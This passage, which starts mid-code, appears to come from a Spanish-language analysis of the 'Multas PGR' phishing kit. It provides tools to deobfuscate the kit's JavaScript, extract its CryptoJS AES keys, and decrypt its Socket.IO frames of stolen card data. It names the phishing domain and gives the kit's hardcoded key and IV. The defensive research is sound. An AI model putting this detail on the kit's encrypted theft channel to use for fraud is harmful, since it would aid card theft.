for (; i < src.length; i++) {               // recorre respetando comillas y escapes
  const c = src[i];
  if (q) { if (c === "\\") { i++; continue; } if (c === q) q = null; continue; }
  if (c === '"' || c === "'" || c === "`") { q = c; continue; }
  if (c === "[") depth++;
  else if (c === "]" && --depth === 0) break;
}
const literal = src.slice(start, i + 1);
let arr;
try { arr = JSON.parse(literal); }                       // array de strings con comillas dobles
catch { arr = require("vm").runInNewContext(literal, Object.create(null), { timeout: 1000 }); } // sandbox vacío, solo el literal

// 3) Decodificar: base64 con alfabeto no estándar (minúsculas primero) + decodeURIComponent
const ALPHA = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=";
function decode(s) {
  let bin = "", out = "";
  for (let b, c, n = 0, k = 0; (c = s.charAt(k++)); ~c && (b = n % 4 ? 64 * b + c : c, n++ % 4)
       ? (bin += String.fromCharCode(255 & (b >> ((-2 * n) & 6)))) : 0) c = ALPHA.indexOf(c);
  for (let k = 0; k < bin.length; k++) out += "%" + ("00" + bin.charCodeAt(k).toString(16)).slice(-2);
  try { return decodeURIComponent(out); } catch { return bin; }
}

const lines = arr.map((s, idx) => `${decName}(${idx + offset})\t${JSON.stringify(decode(s))}`);
if (outFile) fs.writeFileSync(outFile, lines.join("\n") + "\n");
else console.log(lines.join("\n"));
console.error(`[+] ${arr.length} strings | decodificador=${decName}() offset=${offset} array=${arrFn}()`);
```

</details>

### `extract_keys.py`

Localiza las keys e IV que se pasan a `CryptoJS.enc.Utf8.parse()` (paso 2).

<details>
<summary>Ver código</summary>

```python
#!/usr/bin/env python3
"""
extract_keys.py — Localiza las keys/IV AES de CryptoJS en un bundle ofuscado usando
la tabla de strings ya decodificada por deobf_strings.js.

Uso:   python3 extract_keys.py <bundle.js> <strings.tsv>

Lógica:
  En el código, CryptoJS recibe la key/IV así (tras minificar):
      const V = c[b(15)][b(16)][b(17)](b(18))      ->  CryptoJS.enc.Utf8.parse("<KEY>")
  y luego:
      c[b(20)][b(21)](n, V, {iv: W, mode: c[b(22)][b(23)], padding: c[b(24)][b(25)]})
                                                   ->  CryptoJS.AES.encrypt(n, KEY, {iv, mode: CBC, padding: Pkcs7})
  El script busca cada llamada X[b(i)][b(j)][b(k)](b(n)) donde i,j,k = enc,Utf8,parse,
  resuelve b(n) con la tabla y agrupa los pares key/IV definidos de forma consecutiva.
"""
import json, re, sys

src = open(sys.argv[1], encoding="utf-8").read()
table = {}
for line in open(sys.argv[2], encoding="utf-8"):
    call, val = line.rstrip("\n").split("\t", 1)
    table[call] = json.loads(val)

dec = re.match(r"(\w+)\(", next(iter(table))).group(1)           # nombre del decodificador, p. ej. "b"
S = lambda n: table.get(f"{dec}({n})")

# Llamadas del tipo  obj[b(i)][b(j)][b(k)](b(n))  o  obj[b(i)][b(j)][b(k)](VARIABLE)
rx = re.compile(r"\w+\[%s\((\d+)\)\]\[%s\((\d+)\)\]\[%s\((\d+)\)\]\((?:%s\((\d+)\)|(\w+))\)" % ((dec,) * 4))
parsed = []
for m in rx.finditer(src):
    i, j, k, n, var = m.groups()
    if (S(i), S(j), S(k)) != ("enc", "Utf8", "parse"):
        continue
    if n is not None:
        value = S(n)
    else:                                                          # const af=b(70) ... parse(af)
        d = re.search(r"\b%s=%s\((\d+)\)" % (re.escape(var), dec), src)
        value = S(d.group(1)) if d else f"<variable {var}>"
    parsed.append((m.start(), value))

# Parámetros del cifrado presentes en el bundle
algo = {x for x in ("AES", "CBC", "ECB", "CTR", "Pkcs7", "NoPadding", "MD5") if x in table.values()}
print(f"[+] Primitivas CryptoJS referenciadas: {', '.join(sorted(algo))}")
print(f"[+] Utf8.parse() con literal encontrados: {len(parsed)}")
for idx in range(0, len(parsed) - 1, 2):
    (o1, k), (o2, iv) = parsed[idx], parsed[idx + 1]
    print(f"    par #{idx//2 + 1}  key={k!r} ({len(k)*8} bits)  iv={iv!r}  offset={o1}")
```

</details>

### `decrypt_ws.py`

Descifra el export de frames Socket.IO (paso 3). Requiere `pip install cryptography`.

<details>
<summary>Ver código</summary>

```python
#!/usr/bin/env python3
"""
decrypt_ws.py — Descifra frames Socket.IO del kit "Multas PGR" (multaspgr[.]top).

Uso:
  python3 decrypt_ws.py frames.txt                      # keys por defecto del kit
  python3 decrypt_ws.py frames.txt --mask               # enmascara PAN y CVV (para publicar)
  python3 decrypt_ws.py frames.txt --key K --iv IV      # otro despliegue / otra key
  python3 decrypt_ws.py frames.txt --json > out.jsonl   # salida JSON Lines

Entrada: export de mensajes WebSocket (any.run, DevTools/HAR convertido, etc.).
Cada línea debe contener la dirección (sent/received) y el frame Socket.IO 42["message","<base64>"].

Requisito: pip install cryptography
"""
import argparse, base64, json, re, sys
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding

DEFAULT_KEY = "ZQMWLSPXJRDHKTNV"   # b(70) en CQBmPQ5D.js — canal WebSocket
DEFAULT_IV  = "YFBCUENAGPQLXJWR"   # b(71)

def decrypt(b64: str, key: bytes, iv: bytes) -> str:
    """AES-CBC + PKCS7, equivalente a CryptoJS.AES.decrypt(ct, Utf8.parse(key), {iv, CBC, Pkcs7})."""
    d = Cipher(algorithms.AES(key), modes.CBC(iv)).decryptor()
    padded = d.update(base64.b64decode(b64)) + d.finalize()
    u = padding.PKCS7(128).unpadder()
    return (u.update(padded) + u.finalize()).decode("utf-8")

def mask(obj):
    """Enmascara PAN (deja 6 primeros + 4 últimos) y CVV/PIN/códigos."""
    if isinstance(obj, dict):
        out = {}
        for k, v in obj.items():
            if k == "cardNumber" and isinstance(v, str):
                d = re.sub(r"\D", "", v)
                out[k] = (d[:6] + "*" * max(len(d) - 10, 0) + d[-4:]) if len(d) > 10 else "*" * len(d)
            elif k in ("cvv", "pin", "code", "customCode", "expressCvv") and v:
                out[k] = "*" * len(str(v))
            else:
                out[k] = mask(v)
        return out
    return obj

ap = argparse.ArgumentParser()
ap.add_argument("frames")
ap.add_argument("--key", default=DEFAULT_KEY)
ap.add_argument("--iv", default=DEFAULT_IV)
ap.add_argument("--mask", action="store_true")
ap.add_argument("--json", action="store_true")
a = ap.parse_args()
key, iv = a.key.encode(), a.iv.encode()

rx = re.compile(r'(sent|received).*?42\["message","([A-Za-z0-9+/=]+)"\]')
stats = {}
for n, line in enumerate(open(a.frames, encoding="utf-8"), 1):
    m = rx.search(line)
    if not m:
        continue                                   # handshake (0/40), ping (2), pong (3)
    direction = "C->S" if m.group(1) == "sent" else "S->C"
    try:
        msg = json.loads(decrypt(m.group(2), key, iv))
    except Exception as e:
        print(f"{n}\t{direction}\tERROR: {e}", file=sys.stderr)
        continue
    if a.mask:
        msg = mask(msg)
    ev = msg.get("event", "?")
    stats[ev] = stats.get(ev, 0) + 1
    if a.json:
        print(json.dumps({"line": n, "dir": direction, **msg}, ensure_ascii=False))
    else:
        print(f"{n}\t{direction}\t{json.dumps(msg, ensure_ascii=False)}")

print("[+] eventos: " + ", ".join(f"{k}={v}" for k, v in sorted(stats.items())), file=sys.stderr)
```

</details>
